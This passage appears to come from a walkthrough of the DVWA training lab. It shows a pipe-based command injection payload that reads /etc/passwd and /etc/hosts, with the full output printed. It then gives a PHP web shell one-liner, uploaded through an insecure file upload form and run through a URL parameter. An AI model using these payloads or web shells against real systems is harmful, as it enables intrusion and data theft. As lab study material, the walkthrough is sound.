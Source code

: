 We try again the previous trick but this time we don't succeed, so we try again this trick removing all the spaces `a|ls`, in this case we are lucky and we get it right the first time, the final command is `a|cat /etc/passwd`.

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```
`a|cat /etc/hosts`
```txt
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	7abe71b66849
```
### File Upload
To demonstrate that an arbitrary file containing PHP code has been successfully uploaded and can somehow be executed, we have chosen to use an oneliner that takes the `cmd` parameter from the URL and executes the corresponding command on the server. The exact oneliner is `<?php system($_GET['cmd']);?>`
#### Easy

The first thing we need is to generate a `.php` file to upload our oneliner, we can generate it with the following command `echo '<?php system($_GET['cmd']);?>' > a.php`.

Once generated we simply try to upload it to the web, in this case we have no problem. To check if we have reached the arbitrary code execution we use the `ls` command, to do this we must access the following URL `http://172.17.0.2/hackable/uploads/a.php?cmd=ls`.
The result obtained is this:

```txt
a.php dvwa_email.png
```
